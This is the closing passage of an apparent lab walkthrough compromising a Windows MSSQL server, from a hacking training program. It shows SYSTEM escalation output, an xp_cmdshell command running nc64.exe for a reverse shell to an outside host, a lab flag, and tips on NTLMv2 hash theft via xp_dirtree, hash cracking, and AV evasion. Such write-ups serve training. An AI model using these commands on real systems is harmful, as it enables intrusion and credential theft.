

```
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.292]

C:\Windows\system32> whoami
nt authority\system
```

SYSTEM.

Alternatively, the `xp_cmdshell` session was used to run nc64.exe from the share for a direct SYSTEM shell:

```sql
xp_cmdshell "\\10.10.17.9\a\nc64.exe -e cmd.exe 10.10.17.9 443"
```



---

## Step 12 — Root Flag

```
C:\Users\Administrator\Desktop> type root.txt
```



```
11c43d93700f1824d9334f05af4cbfcb
```

---

## 📌 Conclusion

**Macro-enabled Office files hide credentials.** Any `.xlsm`, `.xlsb`, or `.docm` file can contain VBA code with hardcoded connection strings. `strings` on `vbaProject.bin` extracts them without needing Office or oletools.

**`xp_dirtree` is how you steal hashes from MSSQL.** The server authenticates to whatever UNC path you provide. Responder catches that as an NTLMv2 hash. Start Responder first, then trigger `xp_dirtree`. This works on any MSSQL server that can reach your machine.

**NTLMv2 is mode 5600 in hashcat.** Not 1000 (NTLM) or 18200 (Kerberos AS-REP). Wrong mode means no cracks.

**Encoding PowerShell with UTF-16LE base64 bypasses bad character filters.** `iconv -t UTF-16LE | base64 -w 0` then pass to `-enc`. Plain base64 without the iconv step does not work — PowerShell expects UTF-16LE specifically.

**PrintSpoofer for Server 2016/2019/2022, JuicyPotato for Server 2008 R2 and older.** They are not interchangeable. Check `systeminfo` before choosing.

**When disk writes are blocked, run from a UNC path.** Impacket's `smbserver.py` serves a share in seconds. No files written to disk, no AV triggers on write.

---

This work is part of **FuzzRaiders**' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀

